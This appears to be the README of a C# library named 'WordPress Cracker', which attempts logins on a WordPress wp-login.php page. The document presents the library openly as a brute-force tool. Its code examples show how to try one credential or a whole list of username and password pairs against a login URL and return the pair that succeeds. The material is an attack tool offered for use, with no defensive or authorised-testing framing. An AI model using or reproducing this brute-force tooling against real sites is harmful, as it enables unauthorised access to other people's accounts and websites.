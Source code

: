 
# WordPress Cracker (Bruteforce) with C#

Cracking WordPress login page with a simple bruteforce. 

Note: this project is a C# standard library, not a console app. If you want an implementation, consider creating one and add a reference to this library.


## Documentation

### Bruteforcing
Below is a simple example on how to simulate a login to a WordPress site with the specified username, password, and login page url. It'll return true if the given `FormData` object is valid, otherwise false.

```csharp
using Opapps.Lib.WordpressCracker.Entities;
using Opapps.Lib.WordpressCracker.Services;

...

var loginUrl = "https://some-url.com/wp-login.php";
var loginCredential = new FormData("user", "some correct password");
var wpLoginCracker = new WordpressLoginCracker();
bool res = await wpLoginCracker.AttemptLoginAsync(loginUrl, loginCredential); // return true


```

You can also bruteforce with many `FormData` objects at once:


```csharp
using Opapps.Lib.WordpressCracker.Entities;
using Opapps.Lib.WordpressCracker.Services;

...

var loginUrl = "https://some-url.com/wp-login.php";
var loginCredentials = new List<FormData>();
loginCredentials.Add(new FormData("user", "some wrong password"));
loginCredentials.Add(new FormData("user", "some correct password"));

var wpLoginCracker = new WordpressLoginCracker();
FormData res = await wpLoginCracker.AttemptLoginAsync(loginUrl, loginCredentials); // return the second `FormData` object.

```
